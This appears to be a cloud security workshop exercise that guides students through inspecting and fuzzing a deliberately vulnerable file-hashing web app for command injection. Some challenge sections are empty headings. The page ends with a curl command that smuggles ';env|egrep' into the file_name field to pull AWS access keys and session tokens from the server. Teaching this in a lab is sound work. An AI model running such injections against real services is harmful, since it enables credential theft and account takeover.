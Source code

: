 # Exercise 3: Discovering Evidence-App Vulnerability

<!-- markdownlint-disable MD033-->

<!--Overriding style-->
<style>
  :root {
    --sans-primary-color: #ff0000;
}
</style>

**Estimated Time to Complete:** 15 minutes

## Objectives

* Interact with **evidence-app** using your web browser, but this time use **Developer tools** to see what the submission looks like
* Fuzz the application by altering the `POST` payload sent to the application and review the results
* Infer what may be happening behind the scenes
* Review the source code to see where the vulnerability lies

## Challenges

### Challenge 1: Interact With Evidence-App (Again)

Instead of simply uploading another file, enable Developer tools in your web browser and see what the upload payload looks like when `/api/` is communicated with.

!!! note

    There is a walkthrough for some of the more common web browsers. If you use a different web browser than what is listed, research how to enable developer tools and how to view raw requests.

??? cmd "Solution - Google Chrome/Brave"

    1. Go to the browser tab with the evidence-app homepage. Again, if you closed it, you can recover the URL by running the following in your **CloudShell** session:

        ```bash
        echo $TARGET
        ```

        !!! summary "Expected Results"

            ```bash
            https://d1dw3pytnie47k.cloudfront.net
            ```

    2. Open Developer tools for this tab by either pressing `F12` or clicking on the triple dots in the top-right of the browser (1), hovering over **More tools** (2), and clicking on **Developer Tools** (3).

        ![](../img/exercise3/1.png ""){: class="w600" }

    3. A new pane should open on the right. To prepare for reviewing client and server communication, click on the **Network** tab.

        ![](../img/exercise3/2.png ""){: class="w600" }

    4. Upload another file as you did in **Exercise 2, Challenge 1**. Click on the **Choose File** button (1) and select a file of your choice (2).

        ![](../img/exercise2/1.png ""){: class="w600" }

        ![](../img/exercise2/2.png ""){: class="w500" }

    5. Click the **Submit** button (1). Click on the **OK** button in the alert popup (2). After a few moments, the file will be hashed and the results loaded on the page (3).

        ![](../img/exercise2/3.png ""){: class="w600" }

        ![](../img/exercise2/4.png ""){: class="w400" }

        ![](../img/exercise2/5.png ""){: class="w600" }

    6. In the **Developer Tools** pane, you should see two requests to `/api/`. The first is the `POST` request (the file upload) and the second is the `GET` request (refreshing the table on the web page). Click on the first request to `/api/` (1) and then, when a new pane opens, click on **Payload** (2).

        ![](../img/exercise3/3.png ""){: class="w600" }

    7. If you look closely at the **Form Data**, what is being submitted to `/api/` is a JSON object with two fields: `file_data` and `file_name`. The first (`file_data`) contains base64-encoded file contents and `file_name` is the name of the file submitted.

??? cmd "Solution - Firefox"

### Challenge 2: Fuzz Evidence-App

Being a web application, we would likely want to spend a decent amount of time performing attempts to uncover the [OWASP Top 10 web vulnerabilities](https://owasp.org/www-project-top-ten/). We do not have that kind of time in this workshop so we will focus on one in particular: **Injection**. Using the `POST` data that was discovered when interacting with the application, see if you can fuzz either one of the `POST` variables and see if the application responds unexpectedly.

??? cmd "Solution"

    1. As you are uploading data (file contents and file name) via the evidence-app, it is processed somewhere along the line and a hash of the data is generated, stored somewhere, and presented to the user via the web page. You are going to try to hijack the hashing process.

    2. To hijack this process, you will try to manipulate the data that is `POST`ed to the application. You have two choices, the `file_name` value or the `file_data` value. Let's start with `file_name`.

    3. You can fuzz an application with many different types of values, but, in the interest of time, let's see if we can fuzz the application with some command injection attempts. If you look [here](https://github.com/payloadbox/command-injection-payload-list) you will find a nice list of command injection payloads that you can set as the `file_name` value. This would take quite a while to do manually, so, like many useful techniques, there's a script for that located at `/home/cloudshell-user/scripts/fuzz-evidence-app.py`.

### Challenge 3: Infer Underlying Hash Command

### Challenge 4: Source Code Review






For next challenge: ```curl -X POST https://d1dw3pytnie47k.cloudfront.net/api/ -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -d '{"file_name":";env|egrep \"(AWS_ACCESS_KEY_ID|AWS_SECRET_ACCESS_KEY|AWS_SESSION_TOKEN)\"","file_data":"dGVzdAo="}'```
